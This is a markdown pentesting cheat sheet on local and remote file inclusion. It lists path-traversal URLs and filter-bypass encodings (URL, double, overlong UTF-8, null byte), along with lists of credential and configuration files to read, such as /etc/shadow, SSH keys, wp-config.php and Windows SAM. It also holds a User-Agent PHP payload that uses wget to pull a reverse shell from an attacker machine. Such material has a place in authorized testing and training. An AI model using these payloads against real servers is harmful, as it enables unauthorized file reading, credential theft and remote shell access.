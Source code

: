 # Local and remote file inclusion

Local file inclusion \(LFI\) vulnerabilities allow an attacker to read local files on the web server using malicious web requests, such as:

* Web configuration files
* Log files
* Password files
* Other sensitive system data

LFI can also be used for remote code execution \(RCE\). In most cases, this is due to poor or missing input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user \(e.g. www-data\).

## Techniques

### Basic

Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:

```text
http://host/?page=../../../../../etc/passwd
```

Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

#### wget

Sometimes browsers mess around with basic directory traversal sequences, but `wget` may work:

```text
wget http://[host]/wp-content/uploads/page.php?url=../../../../../../../var/www/html/wp-config.php
```

### Nesting traversal sequences

If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```text
....//

....\/

..../\

....\\
```

### URL-encoded

Encoding all the slashes and dots in your path traversal could bypass input filters:

```text
dot             %2e
forward slash   %2f
backslash       %5c
```

Example:

```text
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded

Another encoding method:

```text
dot             %252e
forward slash   %252f
backslash       %255c
```

Example:

```text
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Overlong UTF-8 encoding

You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```text
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator \(`%00` or `0x00` in hex\) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:

```text
$file = $_GET['page'];
require_once("/var/www/$file.php");
```

Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:

```text
http://website/page=../../../etc/passwd%00
```

### proc/self/environ method

If you're able to request `/proc/self/environ` using LFI, you might be able to get a shell by downloading a remote file with reverse shellcode and run it on the system \(e.g. [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)\). You'll need to intercept the `/proc/self/environ` request and replace HTTP request header `User Agent` with the following:

```text
<?system('wget http://[attack machine]/reverseshell.txt -O shell.php');?>
```

Then execute the shell by calling the URL where it was uploaded:

```text
http://[host]/folder/shell.php
```

## Interesting files

If an LFI vulnerability exists, look for these files:

### Linux

Linux system and user files:

```text
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/home/user/
/home/user/.ssh
/home/user/bash_history
```

#### Log files

Potentially interesting logfiles:

```text
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```

#### CMS configuration files

If there is a web server, always check `/var/www/html` for interesting files, including `robots.txt` in the root web folder.

Content management system configuration files:

```text
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

### Windows

Files that may exist on Windows systems:

```text
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows.

```text
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

## Further reading

* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
* [LFI to RCE with Perl script](https://www.exploit-db.com/papers/12992/)

